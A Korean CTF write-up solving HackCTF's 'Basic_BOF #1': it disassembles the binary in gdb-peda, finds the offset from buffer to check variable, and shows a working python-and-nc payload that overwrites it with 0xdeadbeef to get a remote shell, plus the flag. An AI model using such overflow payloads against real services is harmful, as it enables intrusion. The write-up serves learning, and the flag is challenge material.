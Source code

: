 # Basic_BOF \#1

---

전체 code는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cb <+0>:	lea    ecx,[esp+0x4]
   0x080484cf <+4>:	and    esp,0xfffffff0
   0x080484d2 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484d5 <+10>:	push   ebp
   0x080484d6 <+11>:	mov    ebp,esp
   0x080484d8 <+13>:	push   ecx
   0x080484d9 <+14>:	sub    esp,0x34
   0x080484dc <+17>:	mov    DWORD PTR [ebp-0xc],0x4030201
   0x080484e3 <+24>:	mov    eax,ds:0x804a040
   0x080484e8 <+29>:	sub    esp,0x4
   0x080484eb <+32>:	push   eax
   0x080484ec <+33>:	push   0x2d
   0x080484ee <+35>:	lea    eax,[ebp-0x34]
   0x080484f1 <+38>:	push   eax
   0x080484f2 <+39>:	call   0x8048380 <fgets@plt>
   0x080484f7 <+44>:	add    esp,0x10
   0x080484fa <+47>:	sub    esp,0x8
   0x080484fd <+50>:	lea    eax,[ebp-0x34]
   0x08048500 <+53>:	push   eax
   0x08048501 <+54>:	push   0x8048610
   0x08048506 <+59>:	call   0x8048370 <printf@plt>
   0x0804850b <+64>:	add    esp,0x10
   0x0804850e <+67>:	sub    esp,0x8
   0x08048511 <+70>:	push   DWORD PTR [ebp-0xc]
   0x08048514 <+73>:	push   0x804861c
   0x08048519 <+78>:	call   0x8048370 <printf@plt>
   0x0804851e <+83>:	add    esp,0x10
   0x08048521 <+86>:	cmp    DWORD PTR [ebp-0xc],0x4030201
   0x08048528 <+93>:	je     0x8048543 <main+120>
   0x0804852a <+95>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x08048531 <+102>:	je     0x8048543 <main+120>
   0x08048533 <+104>:	sub    esp,0xc
   0x08048536 <+107>:	push   0x8048628
   0x0804853b <+112>:	call   0x8048390 <puts@plt>
   0x08048540 <+117>:	add    esp,0x10
   0x08048543 <+120>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x0804854a <+127>:	jne    0x804857c <main+177>
   0x0804854c <+129>:	sub    esp,0xc
   0x0804854f <+132>:	push   0x8048644
   0x08048554 <+137>:	call   0x8048390 <puts@plt>
   0x08048559 <+142>:	add    esp,0x10
   0x0804855c <+145>:	sub    esp,0xc
   0x0804855f <+148>:	push   0x804866e
   0x08048564 <+153>:	call   0x80483a0 <system@plt>
   0x08048569 <+158>:	add    esp,0x10
   0x0804856c <+161>:	sub    esp,0xc
   0x0804856f <+164>:	push   0x8048678
   0x08048574 <+169>:	call   0x8048390 <puts@plt>
   0x08048579 <+174>:	add    esp,0x10
   0x0804857c <+177>:	mov    eax,0x0
   0x08048581 <+182>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048584 <+185>:	leave  
   0x08048585 <+186>:	lea    esp,[ecx-0x4]
   0x08048588 <+189>:	ret    
End of assembler dump.
```

이 코드의 내용은 buf에 45bytes만큼 입력을 받아서 bufferoverflow를 통해서 check라는 변수를 0xdeadbeef로 바꾸면 shell을 열어주는 코드이다. 이를 위해서 A*32를 입력한다음 stack을 보았다.

```gdb-peda
    gdb-peda$ x/20wx $ebp-0x40
    0xffffce48:	0xf7fb65a0	0xf7fd31b0	0x00008000	0x41414141
    0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffce68:	0x41414141	0x41414141	0x41414141	0xffff000a
    0xffffce78:	0xffffcf3c	0x04030201	0xf7fb63dc	0xffffcea0
    0xffffce88:	0x00000000	0xf7e1c637	0xf7fb6000	0xf7fb6000
```
보면 buf의 시작주소는 0xffffce54이고, check의 주소는 0xffffce7c이다. 때문에 dummy를 40bytes를 채우고, 0xdeadbeef를 입력하면 shell을 따낼 수 있다.


    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/1.Basic_Bof#1$ (python -c "print 'A'*40+'\xef\xbe\xad\xde'";cat) | nc ctf.j0n9hyun.xyz 3000
    ls
    flag
    main
    cat flag
    HackCTF{f1r57_574ck_buff3r_0v3rfl0w_5ucc355}

**flag: HackCTF{f1r57_574ck_buff3r_0v3rfl0w_5ucc355}**
